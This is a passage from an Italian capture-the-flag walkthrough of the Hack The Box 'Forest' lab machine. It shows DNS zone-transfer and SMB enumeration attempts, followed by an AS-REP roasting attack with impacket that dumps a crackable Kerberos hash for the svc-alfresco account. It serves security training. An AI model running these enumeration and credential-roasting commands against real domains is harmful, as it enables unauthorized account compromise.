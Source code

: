 ```shell
└─$ dig axfr htb.local @10.10.10.161                                                                                                                                                                                                    

; <<>> DiG 9.18.0-2-Debian <<>> axfr htb.local @10.10.10.161
;; global options: +cmd
; Transfer failed.
```


## 1.2 SMB - TCP 445
Non abbiamo info

```shell
┌──(asd㉿asd)-[~/Scrivania/Forest]
└─$ smbmap -H 10.10.10.161
[+] IP: 10.10.10.161:445        Name: 10.10.10.161   
┌──(asd㉿asd)-[~/Scrivania/Forest]
└─$ smbmap -H 10.10.10.161 -u asd -p asd
[!] Authentication error on 10.10.10.161
┌──(asd㉿asd)-[~/Scrivania/Forest]
└─$ smbclient -N -L \\10.10.10.161                                                                                 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.161 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

## 2. AS-ROASTING
Lanciando impacket (modulo per AS-ROASTING) ricaviamo la password di un utente

```shell
└─$ impacket-GetNPUsers htb.local/ -dc-ip 10.10.10.161 -request -format hashcat
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2022-07-14 04:46:28.700913  2019-09-23 07:09:47.931194  0x410200 



$krb5asrep$23$svc-alfresco@HTB.LOCAL:bc85122ca93be03f315decc5c4d06e6b$0c59420de7005a1ce3df2924a2f99471ee0a516b00bd6bd5556e8a97097b94421e5de113715cb42abe5c674b13d073d80975c7f5ee051896dba1047d25713acd81f903b082cc2ea69b77cbc5518d03fdeb52f68b3b17134a2df0ef72bfd2bc652aef6e5b464443191b7a4d58b64aed1d7eb34ef86fbd15ff9b3709f2a925d9bf2b9ba2294974e2e223917122a04a656355edf5985ad1f72cb55dd61466b24902010a444a4fd1ba99a70f687de936f8a9dbae03504ae6c33df74dc7149e1d4e3a48a43d61343807bff68ce03c793888e2b32369428d6243856a287d2a837b924e5e47dccf92aa
```
